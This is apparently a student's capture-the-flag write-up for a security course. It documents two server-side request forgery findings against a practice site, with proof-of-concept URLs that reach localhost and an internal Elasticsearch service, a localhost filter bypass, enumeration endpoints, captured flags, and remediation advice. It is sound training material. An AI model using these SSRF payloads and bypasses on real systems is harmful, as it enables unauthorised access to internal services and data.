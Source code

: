 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
---
```

# Server Side Request Forgery: Local Files
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load
2. Notice that there is a request for `https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css`, which can also be confirmed by viewing the source of the page
3. This becomes an entry point for an attacker to probe the internal network
4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`
5. When viewing `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css` there is a hint that something else is on the server
6. Logically we try `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag` and it gives us the flag  
   `(wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag)` 
```
 sectalks{i_wonder_what_else_is_running_locally}
 ```
Extra Info:  
- not sure why but `localhost` gives the message `big sorry, we broke localhost, try 127.0.0.1` but this can be circumvented by using the following: `127.0.0.1`, `0`, `Localhost` / `lOcAlHoSt` etc 


### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
   
# Server Side Request Forgery: Local Services
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  returns :  
```
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
   
Extra Info:  
- A lot of additional information can be found by executing any of the following commands 
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a Web Application Firewall (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

